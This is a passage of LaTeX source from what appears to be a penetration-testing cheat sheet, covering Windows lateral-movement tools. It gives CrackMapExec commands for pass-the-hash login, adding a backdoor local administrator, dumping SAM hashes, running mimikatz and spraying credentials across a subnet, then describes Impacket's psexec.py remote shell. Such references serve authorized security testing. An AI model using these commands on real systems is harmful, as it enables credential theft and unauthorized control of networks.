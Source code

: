 \subsubsection{CrackMapExec}
\begin{lstlisting}
  # Execute command on target machine as domain user with hash
  crackmapexec smb 10.1.2.3 -d DOMAIN -u user -H d7[CUT]8d -x 'net user csnc MyPW.123 /add && net localgroup Administrators csnc /add'
  # Dump SAM hashes on target machine as local administrator with hash
  crackmapexec smb 10.1.2.3 -u Administrator -H d7[CUT]8d --local-auth --sam
  # check if provided user is local admin on target machines and list users
  crackmapexec smb 10.1.2.0/24 -u user -p pass --local-auth --loggedon-users
  #  Execute mimikatz on target systems if authentication is successful
  crackmapexec smb targets.txt -u user -p pass -M mimikatz
  # Try all combinations of provides users and hashes
  crackmapexec smb 10.1.2.0/24 -u users.txt -H hashes.txt --local-auth
\end{lstlisting}

\subsubsection{Impacket}
Impacket is a collection of Python classes for working with network protocols. 
Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. 
Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. 
The library provides a set of tools as examples of what can be done within the context of this library.

\paragraph{psexec.py}
PSEXEC like functionality example using RemComSvc:\\
What is RemCom : RemCom is a small (10KB upx packed) remoteshell / telnet replacement that lets you execute processes on remote windows systems, copy files on remote systems, process there output and stream it back. 
It allows execution of remote shell commands directly with full interactive console without having to install any client software. 
On local machines it is also able to impersonate so can be used as a silent replacement for Runas command.

